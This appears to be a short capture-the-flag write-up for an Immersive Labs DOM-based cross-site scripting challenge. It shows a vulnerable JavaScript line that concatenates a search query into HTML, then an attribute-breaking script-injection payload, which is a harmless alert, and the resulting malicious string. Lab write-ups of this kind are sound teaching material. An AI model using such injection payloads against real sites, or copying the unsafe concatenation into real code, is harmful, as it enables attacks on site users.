 ```yaml
---
date: 2025-01-15
categories: [CTF, ImmersiveLabs]
title: "IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS"
tags: ['privilege escalation', 'rce', 'xss']

description: "Cross-Site Scripting Ep.4 – D - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Cross-Site Scripting: Ep.4 – DOM-Based XSS


![image1](../resources/67d569a52546432e9ab3078c02172071.png)

![image2](../resources/5ab24e8e01f04e53aafdcb9682f2fef3.png)

**<u>Original query:</u>**
```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + query + '"></div>'

```
**<u>Inject the following:</u>**
```bash
'"\>\<script\>alert('XSS')\</script\>\<"'

```
**<u>Malicious query:</u>**
```bash
var tracker = '<div hidden><img src="/resources/search_assets/search.gif?query=' + '"><script>alert('XSS')</script><"' + '"></div>'

```
Paste entire malicious code above into Search box

![image3](../resources/d391ec42b4634412a55705b92b912c33.png)


![image4](../resources/709124b3a54f47a28161d72ce125a907.png)
